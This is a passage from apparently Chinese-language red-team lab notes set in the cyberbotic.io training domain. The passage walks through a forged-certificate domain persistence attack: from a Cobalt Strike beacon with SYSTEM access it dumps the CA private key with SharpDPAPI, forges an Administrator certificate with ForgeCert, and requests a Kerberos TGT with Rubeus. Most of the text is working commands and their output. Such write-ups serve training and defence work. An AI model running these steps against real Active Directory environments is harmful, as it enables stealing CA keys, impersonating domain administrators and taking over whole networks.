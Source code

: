 beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```


![alt Certificates](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/private-ca-key.png?width=1920)

将上面的秘钥内容在kali上保存 为一个```.pem```文件，并且用openssl转成```.pfx```

使用[ForgeCert](https://github.com/GhostPack/ForgeCert)构造伪造的证书

```
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
CA Certificate Information:
  Subject:        CN=ca-1, DC=cyberbotic, DC=io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     2/25/2022 11:29:14 AM
  End Date:       2/25/2047 11:39:08 AM
  Thumbprint:     7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
  Serial:         31AC83C6678F28994CFB58207C9FB668

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: Administrator@cyberbotic.io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     3/1/2022 2:19:20 PM
  End Date:       3/1/2023 2:19:20 PM
  Thumbprint:     73C45EC22357C0451E0F374AC30B5C6F6034B132
  Serial:         009E1C0AE8A247695199F8157DB37E38AD

Done. Saved forged certificate to fake.pfx with the password 'password'
```

SubjectAltName最好是域里真实的账号名字

使用Rubeus.exe制造一个tgt
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=User 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\Administrator'
[*] Using domain controller: 10.10.15.75:88

[+] TGT request successful!
[*] base64(ticket.kirbi):

doIF4j [...snip...] 5pbw==
